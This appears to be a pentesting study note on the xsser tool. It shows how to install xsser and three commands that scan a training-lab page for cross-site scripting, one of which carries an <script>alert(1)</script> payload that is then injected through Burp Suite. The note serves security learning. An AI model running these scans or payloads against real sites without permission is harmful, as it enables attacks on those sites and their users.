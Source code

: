 ```yaml
---
title: xsser
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, web pentesting
---
```


# xsser

## Installation

```bash
sudo apt install xsser
```

## Usage 

The following commands are used in combination with BurpSuite:

```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'

xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto

xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
```

With this, the encoded XSS payload is generated. Now, in Burp Suite, replace the POST parameters with the final attack payload and forward the request.


